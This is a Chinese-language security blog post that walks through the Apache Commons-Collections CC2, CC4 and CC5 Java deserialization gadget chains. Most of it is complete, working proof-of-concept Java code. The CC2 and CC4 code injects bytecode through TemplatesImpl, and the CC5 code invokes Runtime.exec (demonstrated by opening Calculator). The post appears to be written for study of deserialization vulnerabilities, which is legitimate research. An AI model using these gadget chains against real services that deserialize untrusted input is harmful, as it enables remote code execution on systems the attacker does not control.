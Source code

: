 # CommonsCollections2 4 5链详解

  
  
&lt;!--more--&gt;  
## CommonsCollections2-4-5链详解  
`Commons-Collections`版本为4.0  
### CommonsCollections4 链详解  
仍然是调用了`transform`方法，但入口点变了位置，这次利用了`TransformingComparator`类`compare()`方法中的`transform`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401171808254.png)
在`PriorityQueue`类中的`readObject`方法恰好调用了`compare`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401171809891.png)
跟进`heapify()`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401171810664.png)
跟进`siftDown()`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401171810083.png)
再跟进`siftDownUsingComparator()`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401171810025.png)
正好在这里调用了`compare()`方法  
构造一下`poc`  
```java  
package org.example.CommonsCollections;    
    
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;    
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;    
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;    
import org.apache.commons.collections4.Transformer;    
import org.apache.commons.collections4.comparators.TransformingComparator;    
import org.apache.commons.collections4.functors.ChainedTransformer;    
import org.apache.commons.collections4.functors.ConstantTransformer;    
import org.apache.commons.collections4.functors.InstantiateTransformer;    
    
import javax.xml.transform.Templates;    
import java.io.FileInputStream;    
import java.io.FileOutputStream;    
import java.io.ObjectInputStream;    
import java.io.ObjectOutputStream;    
import java.lang.reflect.Field;    
import java.nio.file.Files;    
import java.nio.file.Paths;    
import java.util.PriorityQueue;    
    
public class CommonsCollections4 {    
    public static void main(String[] args) throws Exception {    
        TemplatesImpl templatesImpl = new TemplatesImpl();    
        Class tc = templatesImpl.getClass();    
    
        Field nameField = tc.getDeclaredField(&#34;_name&#34;);    
        nameField.setAccessible(true);    
        nameField.set(templatesImpl,&#34;test&#34;);    
    
        Field bytecodesField = tc.getDeclaredField(&#34;_bytecodes&#34;);    
        bytecodesField.setAccessible(true);    
        byte[] code = Files.readAllBytes(Paths.get(&#34;/Users/f10wers13eicheng/Desktop/JavaSecuritytalk/JavaThings/VulnDemo/src/main/java/org/example/LoaderDemo/Test.class&#34;));    
        byte[][] codes = {code};    
        bytecodesField.set(templatesImpl,codes);    
    
        Field tfactoryField = tc.getDeclaredField(&#34;_tfactory&#34;);    
        tfactoryField.setAccessible(true);    
        tfactoryField.set(templatesImpl,new TransformerFactoryImpl());    
    
        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templatesImpl});    
    
        Transformer[] transformers = new Transformer[]{    
                new ConstantTransformer(TrAXFilter.class),    
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templatesImpl})    
        };    
    
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);    
    
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);    
        PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);    
        Class priorityClass = priorityQueue.getClass();    
        Field sizeField = priorityClass.getDeclaredField(&#34;size&#34;);    
        sizeField.setAccessible(true);    
        sizeField.set(priorityQueue,2);    
    
        //serialize(priorityQueue);    
        unserialize(&#34;ser.bin&#34;);    
    }    
    public static void serialize(Object obj) throws Exception{    
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(&#34;ser.bin&#34;));    
        oos.writeObject(obj);    
    }    
    
    public static Object unserialize(String filename) throws Exception{    
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));    
        Object obj = ois.readObject();    
        return obj;    
    
    }    
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401171826539.png)  
### CommonsCollections2 链详解  
利用`InvokerTransformer`方法，来调用`newTransformer()`来加载恶意类的调用  
```java  
package org.example.CommonsCollections;    
    
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;    
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;    
import org.apache.commons.collections4.comparators.TransformingComparator;    
import org.apache.commons.collections4.functors.ConstantTransformer;    
import org.apache.commons.collections4.functors.InstantiateTransformer;    
import org.apache.commons.collections4.functors.InvokerTransformer;    
    
import javax.swing.text.AbstractDocument;    
import javax.xml.transform.Templates;    
import javax.xml.ws.spi.Invoker;    
import java.io.FileInputStream;    
import java.io.FileOutputStream;    
import java.io.ObjectInputStream;    
import java.io.ObjectOutputStream;    
import java.lang.reflect.Field;    
import java.nio.file.Files;    
import java.nio.file.Paths;    
import java.util.PriorityQueue;    
    
public class CommonsCollections2 {    
    public static void main(String[] args) throws Exception{    
        TemplatesImpl templatesImpl = new TemplatesImpl();    
        Class tc = templatesImpl.getClass();    
    
        Field nameField = tc.getDeclaredField(&#34;_name&#34;);    
        nameField.setAccessible(true);    
        nameField.set(templatesImpl,&#34;test&#34;);    
    
        Field bytecodesField = tc.getDeclaredField(&#34;_bytecodes&#34;);    
        bytecodesField.setAccessible(true);    
        byte[] code = Files.readAllBytes(Paths.get(&#34;/Users/f10wers13eicheng/Desktop/JavaSecuritytalk/JavaThings/VulnDemo/src/main/java/org/example/LoaderDemo/Test.class&#34;));    
        byte[][] codes = {code};    
        bytecodesField.set(templatesImpl,codes);    
    
        Field tfactoryField = tc.getDeclaredField(&#34;_tfactory&#34;);    
        tfactoryField.setAccessible(true);    
        tfactoryField.set(templatesImpl,new TransformerFactoryImpl());    
    
        InvokerTransformer invokerTransformer = new InvokerTransformer(&#34;newTransformer&#34;,new Class[]{},new Object[]{});    
    
        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer(1));    
    
        PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);    
    
        priorityQueue.add(templatesImpl);    
        priorityQueue.add(2);    
    
        Class c = transformingComparator.getClass();    
        Field transformerField = c.getDeclaredField(&#34;transformer&#34;);    
        transformerField.setAccessible(true);    
        transformerField.set(transformingComparator,invokerTransformer);    
    
//        serialize(priorityQueue);    
        unserialize(&#34;ser.bin&#34;);    
    }    
    public static void serialize(Object obj) throws Exception{    
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(&#34;ser.bin&#34;));    
        oos.writeObject(obj);    
    }    
    
    public static Object unserialize(String filename) throws Exception{    
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));    
        Object obj = ois.readObject();    
        return obj;    
    
    }    
}  
```  
  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401171948223.png)
### CommonsCollections5 链详解  
这里利用了`TiedMapEntry`类中的`toString()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401172007422.png)
接着又去调用了`getValue()`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401172007376.png)
然后调用了任意类的`get()`方法，这里直接用`LazyMap`类中的`get()`方法即可  
后面的直接用 CC1 部分链  
这里的入口点`readObject()`需要选一个有`toString()`方法的，这里用`BadAttributeValueExpException`类中的`readObject()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401172010602.png)
构造`poc`  
```java  
package org.example.CommonsCollections;    
    
import org.apache.commons.collections.Transformer;    
import org.apache.commons.collections.functors.ChainedTransformer;    
import org.apache.commons.collections.functors.ConstantTransformer;    
import org.apache.commons.collections.functors.InvokerTransformer;    
import org.apache.commons.collections.keyvalue.TiedMapEntry;    
import org.apache.commons.collections.map.LazyMap;    
import org.apache.commons.collections4.map.TransformedMap;    
    
import javax.management.BadAttributeValueExpException;    
import java.io.*;    
import java.lang.reflect.Field;    
import java.util.HashMap;    
import java.util.Map;    
    
public class CommonsCollections5 {    
    public static void main(String[] args) throws Exception{    
    
        Transformer[] transformers = new Transformer[]{    
                new ConstantTransformer(Runtime.class),    
                new InvokerTransformer(&#34;getMethod&#34;,new Class[]{String.class,Class[].class},new Object[]{&#34;getRuntime&#34;,null}),    
                new InvokerTransformer(&#34;invoke&#34;,new Class[]{Object.class,Object[].class},new Object[]{null,null}),    
                new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})    
        };    
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);    
    
        HashMap&lt;Object, Object&gt; map = new HashMap&lt;&gt;();    
        Map&lt;Object,Object&gt; lazymap = LazyMap.decorate(map,chainedTransformer);    
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap,1);    
    
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(1);    
        Class c = Class.forName(&#34;javax.management.BadAttributeValueExpException&#34;);    
        Field valField = c.getDeclaredField(&#34;val&#34;);    
        valField.setAccessible(true);    
        valField.set(badAttributeValueExpException,tiedMapEntry);    
    
        //serialize(badAttributeValueExpException);    
        unserialize(&#34;ser.bin&#34;);    
    
    }    
    
    public static void serialize(Object obj) throws Exception{    
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(&#34;ser.bin&#34;));    
        oos.writeObject(obj);    
    }    
    
    public static Object unserialize(String filename) throws Exception{    
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));    
        Object obj = ois.readObject();    
        return obj;    
    
    }    
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401172022766.png)
  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/commonscollections2-4-5%E9%93%BE%E8%AF%A6%E8%A7%A3/  

